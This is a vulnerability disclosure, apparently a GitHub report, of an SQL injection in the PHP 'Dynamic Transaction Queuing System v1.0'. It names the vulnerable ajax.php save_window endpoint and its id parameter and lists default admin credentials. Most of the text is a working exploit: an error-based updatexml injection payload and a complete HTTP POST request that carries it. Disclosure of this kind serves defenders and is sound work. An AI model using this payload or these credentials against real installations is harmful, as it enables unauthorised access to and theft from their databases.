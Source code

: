 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=save_window

Vulnerability location: /queuing/admin/ajax.php?action=save_window, id

dbname =queuing_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)&transaction_id=1&name=Window 1 // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=save_window HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)&transaction_id=1&name=Window 1
```

![image](https://user-images.githubusercontent.com/54017627/200098208-92025e20-78b2-4d10-ba35-38c6e842df25.png)
